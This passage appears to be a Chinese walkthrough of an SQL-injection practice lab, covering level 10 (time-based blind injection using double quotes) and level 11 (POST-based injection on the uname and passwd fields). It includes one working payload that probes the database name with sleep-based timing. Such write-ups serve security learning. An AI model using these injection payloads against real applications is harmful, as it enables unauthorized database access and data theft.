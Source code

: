 附上截图
![1](/img/2018-08-03/1.png)
##### 第十关
也是时间盲注，基于双引号，把单引号变成双引号即可
```
id=1" and if(ascii(substr(database(),1,1))>=97,sleep(5),sleep(0)) -- +
```
##### 第十一关
第十一关是基于单引号的post型注入，在f12下可以看到表单是post型以及两个参数`uname`和`passwd`
![2](/img/2018-08-03/2.png)
post型注入要勾选上post data，最后不要忘记`submit=Submit`